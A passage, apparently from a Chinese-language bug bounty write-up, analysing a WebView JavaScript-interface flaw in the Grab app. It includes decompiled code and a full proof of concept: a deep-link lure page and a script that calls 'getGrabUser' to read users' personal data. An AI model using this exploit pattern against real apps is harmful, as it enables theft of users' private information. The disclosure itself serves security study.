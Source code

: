 WebView 通过 setJavaScriptEnabled API 允许加载 JavaScript，从而可以实现 XSS，但客户端 XSS 默认危害相对较小，因为与 Web 安全中 XSS 最大的不同是移动客户端嵌入的 WebView 基本不会保存 Cookie/token 的，后端 Cookie 往往是由原生代码进行处理和传递。但如果只是一个普通的 XSS 厂商不会给如此高的奖金，漏洞的另一个至关重要的点是该 WebView 为了增加与原生代码的交互，自定义了接口，代码如下：

```
WebView v0_3 = this.getMWebView();
    if(v0_3 != null) `{`
        v0_3.addJavascriptInterface(new WebAppInterface(this), "Android");
    `}`

    ...

     @JavascriptInterface public final String getGrabUser() `{`
        Object v0 = this.mActivity.get();
        String v1 = null;
        if(v0 != null) `{`
            v1 = d.a(((ZendeskSupportActivity)v0).getMPresenter().getGrabUser());
            a.a("" + Thread.currentThread().getName() + " : " + ("&gt;&gt;&gt;JavascriptInterface getGrabUser: " + v1), new Object[0]);
        `}`

        return v1;
    `}`
```

其中 getGrabUser 函数会返回用户诸多个人信息，以下是白帽子给出的完整 PoC，首先构造一个调起目标 App 的网页链接发送给受害者，网页代码如下：

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;&lt;title&gt;Zaheck page 1&lt;/title&gt;&lt;/head&gt;
&lt;body style="text-align: center;"&gt;
    &lt;h1&gt;&lt;a href="grab://open?screenType=HELPCENTER&amp;amp;page=https://s3.amazonaws.com/edited/page2.html"&gt;Begin Zaheck!&lt;/a&gt;&lt;/h1&gt;
&lt;/body&gt;
&lt;/html&gt;
```

用户使用任意浏览器打开该网页会跳转到目标应用（此处可以通过模拟点击的方式，但在 iOS 需要点击确认），目标应用会自动加载传入的 URL，该 URL 内容如下：

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;&lt;title&gt;Zaheck page 2&lt;/title&gt;&lt;/head&gt;
&lt;body style="text-align: center;"&gt;
    &lt;script type="text/javascript"&gt;
        var data;
        if(window.Android) `{` // Android
            data = window.Android.getGrabUser();
        `}`
        else if(window.grabUser) `{` // iOS
            data = JSON.stringify(window.grabUser);
        `}`

        if(data) `{`
            document.write("Stolen data: " + data);
        `}`
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```
